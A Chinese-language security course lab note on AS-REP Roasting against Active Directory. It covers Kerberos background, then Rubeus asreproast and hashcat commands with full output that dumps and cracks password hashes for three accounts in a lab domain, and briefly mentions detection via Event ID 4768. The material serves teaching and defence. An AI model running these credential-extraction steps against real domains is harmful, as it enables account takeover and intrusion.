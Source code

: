 ```yaml
---
title: NTUSTISC - AD Note - Lab(AS-REP Roasting)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/3. 更多密碼"
---
```


# NTUSTISC - AD Note - Lab(AS-REP Roasting)
[TOC]

Lecture Video: [ 2022/05/11 AD 安全 2 ](https://youtu.be/ubNMQ7_dcm0?si=CRVWKo4tnpx3LqxK)

## Background
[第十四章 Kerberos 認證系統](https://www.tsnien.idv.tw/Security_WebBook/chap14/14-4%20Kerberos%20%E8%AA%8D%E8%AD%89%E7%B3%BB%E7%B5%B1%E7%B0%A1%E4%BB%8B.html)
* 簡介：這是一種計算機網路授權協議，簡單說如果在同一個domain底下，想要存取某一個server的某項服務，則要如何驗證該使用者的身分以及授權他使用該項服務的資格?換個角度想，如果不認證會怎麼樣?首先，如果不認證使用者身分，就直接讓授權使用該項服務，則最直觀的攻擊就是DoS，或是駭客可以透過該項服務打到內網$\to$提權$\to$橫向移動$\to$APT，看起來很危險；另外一方面，如果有驗證身分，但通過驗證的人一率給予使用服務的授權，又會怎麼樣?可以利用eavesdropping得到授權的ticket再利用reply attack還是可以偽造身分
* 提醒：Windows Kerberos和MIT Kerberos在實作上有一點不一樣，如果想要知道windows kerberos可以看飛飛的文章[^feifei-ad-kerberos-1][^feifei-ad-kerberos-2]，然後自行比對粘添壽老師的影片
* MIT Kerberos架構：
    ![](https://www.tsnien.idv.tw/Security_WebBook/Security_%E6%8F%92%E5%9C%96/%E5%9C%96%2014-8.png)
    為了防止前面提到的問題，他增加了一個TGS的Server，但純控管tickets的發放，另外在驗證上面也增加了timestamp和請求方的網路位址，這樣就可以防止reply attack，而且短時間內都不需要再進行身分認證，很方便
* Windows Kerberos架構：
    ![](https://hackmd.io/_uploads/BkTzOxN1T.png)
* 優點
    > * 主密鑰分配：AS 伺服器除了必須擁有客戶的主密鑰之外，還必須擁有 TGS 的主密鑰；另外，TGS 伺服器也需要擁有所有伺服器的主密鑰。這就是 Kerberos 將所有參與者都稱為 Principal 的主要原因。
    > * 客戶密碼只要輸入一次：客戶端取得通往 TGS 的門票（TicketTGS）之後，在該票的有效期限之內，都可以請求服務，而不需要再輸入密碼來索取門票。
    > * 防禦偽裝攻擊：門票（TicketTGS與 TicketB）上有登錄該票的使用者識別（ID）、工作站位址（AD）、時間戳記（TS）與有效期間（Lifetime）。攻擊者攔截到門票之後，不易在在有效期內偽裝成合法客戶。
    > * 防止重播攻擊：門票有註明時間戳記（T），當攻擊者重播門票時，接收端可以利用時間戳記辨別門票的新舊。


## Lab

### ==AS-REP Roasting==
* 攻擊情境：在Win2016的Server Manager中的Tools可以找到Active Directory User and Computer
    ![](https://hackmd.io/_uploads/H1JCrlEyT.png)
    在一般user的property中，可以看到Account/Account options最底下有一個選項==Do not require Kerberos preauthentication==，這個功能主要是前面提到的對於身分不會認證(1, 2步驟會略過，只執行3-6)，他只會認證後面的ticket
    ![](https://hackmd.io/_uploads/BJidLxV1a.png)
    雖然預設是不勾選，但有兩種情況會打勾
    1. 如果被駭客打進去到最高管理員，當然它會勾選這個功能方便搞事(所有帳號)
    2. 因為windows有分版本，如果要向下兼容各版本之間的認證，則該選項就一定要勾選(這也是為甚麼講師在前面有提到一定要升級AD的舊環境)，這在很古老的系統中常常發生
* 滿足條件：只要前面提到的功能被打開，就可以進行AS-REP Roasting
* 如何攻擊：
    * 自己把Microsoft的document看懂如何pack一個packet，然後自己實作
    * 另一種方式就直接用工具[Rubeus 1.6.4](https://github.com/GhostPack/Rubeus/releases/tag/1.6.4)，他可以直接把有勾選該項目的帳號，送出AS-REQ的請求，然後接收AS-REP的回應，並把接收到的tickets以你指定的格式印出來
    * Cheat Sheet:
    ```bash
    $ Rubeus.exe asreproast
    $ Rubeus.exe asreproast /format:hashcat /outfile:out.txt
    ```
---

#### 實際執行
1. Using Rubeus.exe
:::spoiler Result
```bash!
$ Rubeus.exe asreproast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


[*] Action: AS-REP roasting

[*] Target Domain          : kuma.org

[*] Searching path 'LDAP://WIN-818G5VCOLJO.kuma.org/DC=kuma,DC=org' for AS-REP roastable users
[*] SamAccountName         : reyna.gwendolyn
[*] DistinguishedName      : CN=Reyna Gwendolyn,CN=Users,DC=kuma,DC=org
[*] Using domain controller: WIN-818G5VCOLJO.kuma.org (192.168.222.128)
[*] Building AS-REQ (w/o preauth) for: 'kuma.org\reyna.gwendolyn'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$reyna.gwendolyn@kuma.org:4B08601B0A55BA231BED4333EAA6ED9C$E146006C2F6
      B5EF8D78D4280E646FA601860D754261C28DC48470F2EA99E75DFD03E53F4BAC09BD1BE9697C5918
      C48E5BA6A64D51A550FC6833327EBEF9A0C62F2448BA3CA3AA7D9BD375BF8BE693B1BC199A442053
      AC3A40FA3F29EE3ABFB9B1B1E1C31DDD508FAB7971F1FDCE057D5A4481678511188DB99921762116
      934D04C72071DAACFC6FFA8250380CD9ECECF95CC5702FD7A67AB90F18C299BB9AD8FF4A9325730E
      859F2105F1AF64E170EB118111414CC44D0CDD1199860EF0D99ECD33FB618FEDCFAE96E0DFB75A4D
      9EF3C06C99DBBD9C0A69A344C4C5A65B5B702152081F9

[*] SamAccountName         : henrieta.sabine
[*] DistinguishedName      : CN=Henrieta Sabine,CN=Users,DC=kuma,DC=org
[*] Using domain controller: WIN-818G5VCOLJO.kuma.org (192.168.222.128)
[*] Building AS-REQ (w/o preauth) for: 'kuma.org\henrieta.sabine'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$henrieta.sabine@kuma.org:DEBC5F5111CE6D774625EB3DCC14925A$A91DD569550
      A48219DAC0F53E4114DA7027E073DD6A86EFC83C79206787A84DBF6FC7F4B5168D7CBE65B073A05B
      B13AF1514D32D787948F91E05FF40191B6FE7819B9F5A978377D82B5E9532688B1CF28BBA1370365
      68C110CAB41FEC26D262DC422CB54B678456470AE34F23B6D2CB1597E9565CACD11C1C5F9683408B
      241650007B0E162C40D7694D8F5A5154254E0A54829C7784EB5493DF15812271C3161DD5937B368B
      93406383215D909289E3FE096A10D396EF662C02031E6D4352C6A411EEC38B0A1D02A2E0AB03C86E
      CBF9C07C441C4D5EBD4269400373A2AFAD5879293B856

[*] SamAccountName         : giulietta.moyra
[*] DistinguishedName      : CN=Giulietta Moyra,CN=Users,DC=kuma,DC=org
[*] Using domain controller: WIN-818G5VCOLJO.kuma.org (192.168.222.128)
[*] Building AS-REQ (w/o preauth) for: 'kuma.org\giulietta.moyra'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$giulietta.moyra@kuma.org:11CD5E39C2CEA9695C50826E6FCA66D3$9E2B2F3ED60
      5D93BF02721F921D09DE188F1F7F3BE23907A73B95B30ECB0C1CFF5C68A0E814931A6A839DC1098C
      2F3EF8B0A68492CA16E6CD96C843373581DD8CF14F7F58AE9B63A4717D1E8F7C2AA56DAC959F589C
      1533249CA5BF72BBFC833609A0D958B7B5E692632D3557678B671E65C092494B38FC3840D09E16F4
      1FE8D1BB86FAF16BD3F39E4E8CF8AC07A10FCD20E947D3A496A4204350D1E3B0448DB92AE749F3D0
      7A9D1582677A5958B70DD38E2CDFC914C2848D0F9BC0E78D65AB7F3B9E1B5AFFA53588FBD7FFB297
      357047776932B4EA2405ECB5705418BDE7CB8DBE725BB
```
:::
可以看到他總共吐出了三個hash，分別對應到三個使用者：<font color="FF0000">reyna.gwendolyn, henrieta.sabine, henrieta.sabine</font>，如果仔細對應win2016相對使用者的property會發現的確，這三個user的該選項都有打勾，現在則是利用hashcat之類的工具把hash暴力解開

2. Using Hashcat
可以直接在Kali使用hashcat，不過我是直接在windows上操作，可以參考[^hashcat-instruction]，講解的非常詳細
```bash!
$ hashcat.exe -m 18200 -a 3 ".\Kerberos-AS-REP.txt" -o output.txt
```

Output Result
```bash!
$krb5asrep$23$giulietta.moyra@kuma.org:eb292e4b9e547357db6500d982df775b$2def9955e12f072fdc189adcde61dbff3939f7cfda5c84583c78335edfff1c5d246e3c311b991e26c0ca7afbb97757a2751a521b596e9da9a3ffcbec31205b61e45473cfbff58046f5a9759aa186ebbb90894749b2f0cbd91d6558e8f0750aab7c0b46d8947f843327f9dceb94c4b4043ee902856f3c01493e353c28cd956aaa0c58c6ded536e11855d4584aeed3486e379f91199eb96808631f2b72f0443e637cc66268bc8dd87528daf96b28de8fbccae28aa52b38f5069e5aa2c9b4dd9e21ed77ac30d6602459376a8a791d133f577024c43cae1ac8bd973d39e191ba535c0f660b0e:willow
$krb5asrep$23$reyna.gwendolyn@kuma.org:ef97037a66f7cedcacf9aeae90e8d8cc$930cc1157dfee8d506c728f11184963e4011a0254ea83428aaf529de9c2a10c533ff12c0b6f519aad9c65a7fa6a645e6552f57936001c8b8011bbf1f3f93981bd6126befb0dd74b1df7930336f240f623d1d9e53bbb5e37864559d37ee3f1a0edd319a7252a3b6bab5b50d81967abc630eccb804dd200218b7222914776d71387c2916353c3475426515aaa5b95108b9e9ae68c8ece2dfeeaf7836dd9f3778c49c4090850925332470b9eab9c77c4549237a17f58e41b0b09a1be6a99827f5b14d78a734300bb08056c40a28b6f69fa2c7b72afa7d18d831631b19b7cbcc5a6dc928d66d:edward
$krb5asrep$23$henrieta.sabine@kuma.org:cef1cda05e49376d4749ace914595ea1$43d6d77a9de81c2e1c6a00fd7ea6bbb2dc087e26568ae31ab08f2b6887ccfa427ca59fab8dd7bd69d3c2b13b5f1c4ec2dff56f975940d1096eac8bca440c5adafa49e5e8b57d3cc7fddf83a71fef5353a3e3e2a85a6269a39a007bd5272ef40ba721b30313a2054d684e8efe81b214a79af9e1d5d75b1746070486a0d90e79123d1c881a56d190a7c76f1ad951695faee37f64f7f063fd38f2d7af0476747d10c5d16540c34396a0e752aaa820b4147396829affd62b99de0fa6fd0fba13a5271d5fd8b6484a7e9ef52526d0b6cef84f1ab4c939dc977e967bd12c98ca6fb55508d1a770:therock
```
這三者的密碼就被爆出來了，分別是
giulietta.moyra$\to$willow
reyna.gwendolyn$\to$edward
henrieta.sabine$\to$therock

#### ==How to detect it?==
Event ID: 4768(預設不開，因為在一般中大型公司中，開了這個所收到的event會超多，所以除非做好filter不然一般不開)

## Reference
[^feifei-ad-kerberos-1]:[AD Security - [Day7] 一起來學 AD 安全吧！：AD 驗證協定 Kerberos (1) ](https://ithelp.ithome.com.tw/articles/10296583)
[^feifei-ad-kerberos-2]:[AD Security - [Day8] 一起來學 AD 安全吧！：AD 驗證協定 Kerberos (2) ](https://ithelp.ithome.com.tw/articles/10297185)
[^hashcat-instruction]:[【教學】密碼恢復工具 Hashcat簡易基本教學(windows7/10)](https://home.gamer.com.tw/creationDetail.php?sn=3669363)
